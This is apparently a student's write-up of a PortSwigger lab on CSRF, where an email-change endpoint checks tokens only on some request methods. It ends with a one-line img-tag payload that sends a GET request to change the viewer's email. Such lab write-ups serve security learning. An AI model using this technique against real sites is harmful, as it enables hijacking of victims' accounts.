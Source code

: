 
This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

# Vuln assessment

The original request looks like this:

![[original-req.png]]

Change the request method and remove the token from the query params:

![[exploit-req.png]]

Send the request for the test user and note that the email changed.

# Exploitation

As only a GET request is necessary, the following payload will solve the lab:

```javascript
<img src="https://0a52003203a98e80826765090007007e.web-security-academy.net/my-account/change-email?email=test3%40test.com">
```

